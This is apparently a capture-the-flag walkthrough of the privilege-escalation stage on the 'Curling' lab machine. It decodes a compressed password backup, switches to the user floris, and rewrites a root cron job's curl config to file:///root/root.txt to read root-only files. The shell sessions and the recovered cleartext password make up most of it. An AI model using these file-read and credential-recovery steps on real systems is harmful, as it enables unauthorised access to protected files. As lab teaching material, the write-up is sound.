


# 15 - PrivEsc


# Home
```bash
www-data@curling:/home/floris$ ls -l
total 12
drwxr-x--- 2 root   floris 4096 May 22  2018 admin-area
-rw-r--r-- 1 floris floris 1076 May 22  2018 password_backup
-rw-r----- 1 floris floris   33 May 22  2018 user.txt
```

Once we get in the box we come across two interesting files in floris's home. password_backup is most likely xxd dump of a password. Let's recover the file and inspect it since we don't have read permission on admin-area just yet, we will hold it off for a while.

# password_backup recover
```bash
www-data@curling:/dev/shm$ xxd -r password_backup  > password
www-data@curling:/dev/shm$ file password
password: bzip2 compressed data, block size = 900k
www-data@curling:/dev/shm$ mv password password.bzip2
www-data@curling:/dev/shm$ bzip2 -d password.bzip2
bzip2: Can\'t guess original name for password.bzip2 -- using password.bzip2.out
www-data@curling:/dev/shm$ file password.bzip2.out 
password.bzip2.out: gzip compressed data, was "password", last modified: Tue May 22 19:16:20 2018, from Unix
www-data@curling:/dev/shm$ mv password.bzip2.out password.gz                                         
www-data@curling:/dev/shm$ gunzip  password.gz 
www-data@curling:/dev/shm$ file password
password: bzip2 compressed data, block size = 900k
www-data@curling:/dev/shm$ mv password password.bzip2
www-data@curling:/dev/shm$ bzip2 -d password.bzip2 
bzip2: Can\'t guess original name for password.bzip2 -- using password.bzip2.out
www-data@curling:/dev/shm$ file password.bzip2.out  
password.bzip2.out: POSIX tar archive (GNU)
www-data@curling:/dev/shm$ tar xvf password.bzip2.out 
password.txt
www-data@curling:/dev/shm$ cat password.txt 
5d<wdCbdZu)|hChXll

```

Seemingly, password is compressed several times. Lateral movement is pretty straightforward.

# floris
```bash
www-data@curling:/dev/shm$ su - floris
Password: 5d<wdCbdZu)|hChXll
floris@curling:~$
```

Now it's time to check out the other directory admin-area.

# admin-area

```bash
floris@curling:~/admin-area$ ls -l
total 20
-rw-rw---- 1 root floris    25 Aug 30 17:15 input
-rw-rw---- 1 root floris 16360 Aug 30 17:15 report
```

The time on both files are the same that means they are related.

# input
```bash
floris@curling:~/admin-area$ cat input 
url = "http://127.0.0.1"
```

It looks like a simple url. We have write access to this file, let's keep that in mind.


# report
```html
floris@curling:~/admin-area$ head report 
<!DOCTYPE html>
<html lang="en-gb" dir="ltr">
<head>
        <meta name="viewport" content="width=device-width, initial-scale=1.0" />
        <meta charset="utf-8" />
        <base href="http://127.0.0.1/" />
        <meta name="description" content="best curling site on the planet!" />
        <meta name="generator" content="Joomla! - Open Source Content Management" />
        <title>Home</title>
        <link href="/index.php?format=feed&amp;type=rss" rel="alternate" type="application/rss+xml" title="RSS 2.0" />
```

It is the same response we got from the joomla server. There is probably a cronjob handling these two files. We want to know more about them.

# PsPy64s


curl is executing every minute, it is reading its configuration from *input* then  writes the output to report. We can abuse this feature to read any local file because curl is executing as root and we have write access to its configuration. Configuration abuse is pretty simple, in order to read local files with curl, all you have to do is use the **file://** prefix.


# Root Flag
```bash
floris@curling:~/admin-area$ cat input 
url = "file:///root/root.txt"
```


# watch -n 1 cat report
